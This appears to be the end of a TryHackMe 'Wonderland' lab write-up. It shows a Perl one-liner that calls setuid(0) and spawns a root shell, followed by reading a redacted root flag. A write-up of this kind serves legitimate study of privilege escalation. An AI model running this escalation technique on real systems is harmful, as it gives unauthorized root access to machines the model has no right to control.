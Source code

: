 ```bash
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cd /home/alice
# ls
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt 
thm{xxxxxx, xxxxxxx, xxxxxx xxx! xxx x xxxxx xxxx xxx’xx xx!}
```

Box Done.





### User Flag: 

<details><summary>User Flag</summary></details>


### Root Flag:

<details><summary>Root Flag</summary></details>
